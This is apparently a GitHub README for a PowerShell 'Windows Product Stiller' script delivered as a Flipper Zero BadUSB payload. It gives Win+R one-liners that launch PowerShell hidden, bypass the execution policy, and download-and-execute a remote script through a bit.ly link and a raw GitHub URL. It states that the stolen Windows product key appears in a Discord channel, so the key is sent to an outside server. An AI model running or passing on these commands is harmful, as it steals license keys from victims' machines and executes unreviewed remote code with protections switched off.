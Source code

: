 # WinProdKey.ps1
Hosting for WinProdKey.ps1 (Script for Windows Product Stiller for Flipper Zero script modified by me)

PRODUCT KEY WILL APPEAR PRODUCT KEY WILL APPEAR [HERE](https://discord.gg/uYYD6Ysm8P) (In #product-key-stiller)

Win + R command: powershell -w h -ep bypass "irm https://bit.ly/49SFZ7f | iex" or:

powershell -w h -ep bypass "irm https://raw.githubusercontent.com/nazarhktwitch/WinProdKey.ps1/refs/heads/main/WinProdKey.ps1 | iex"

Or just use payload (For Flipper Zero)
